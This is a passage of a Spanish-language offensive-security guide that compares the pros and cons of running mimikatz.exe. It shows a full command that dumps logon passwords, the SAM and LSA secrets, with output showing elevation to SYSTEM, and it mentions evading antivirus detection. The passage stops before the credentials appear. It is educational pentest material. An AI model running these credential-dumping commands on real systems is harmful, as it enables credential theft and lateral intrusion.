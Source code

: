     ### Pros y Contras de ejecutar Mimikatz con mimikatz.exe <a href="#pros-y-contras-de-ejecutar-mimikatz-con-mimikatz.exe" id="pros-y-contras-de-ejecutar-mimikatz-con-mimikatz.exe"></a>

    #### **Pros** <a href="#pros" id="pros"></a>

    * **Funcionalidad Completa**: La versión ejecutable suele tener todas las funciones de Mimikatz disponibles y está actualizada con las últimas características.
    * **Rapidez**: Al ejecutar el binario directamente, se suele tener una ejecución más rápida y directa de las funciones deseadas.

    #### **Contras** <a href="#contras" id="contras"></a>

    * **Detección**: Es más probable que los antivirus y las herramientas de seguridad modernas detecten la versión ejecutable debido a sus firmas conocidas.
    * **Necesidad de Escritura en el Disco**: A menos que se cargue en la memoria de manera especial, es probable que requiera ser escrito en el disco para su ejecución, lo que aumenta el riesgo de detección y deja evidencia forense.
    * **Bloqueo por Políticas de Seguridad**: Políticas de grupo y configuraciones de seguridad de Windows pueden impedir la ejecución de binarios desconocidos o no firmados.

    ```
    PS C:\Users\adminwebserver\Desktop> .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit

      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz(commandline) # privilege::debug
    Privilege '20' OK

    mimikatz(commandline) # token::elevate
    Token Id  : 0
    User name :
    SID name  : NT AUTHORITY\SYSTEM

    708     {0;000003e7} 1 D 20361          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
     -> Impersonated !
     * Process Token : {0;000828d1} 2 F 2370414     SPARTANCYBERSEC\adminwebserver  S-1-5-21-1861162130-2580302541-221646211-1130   (14g,24p)       Primary
     * Thread Token  : {0;000003e7} 1 D 2408646     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

    mimikatz(commandline) # sekurlsa::logonpasswords
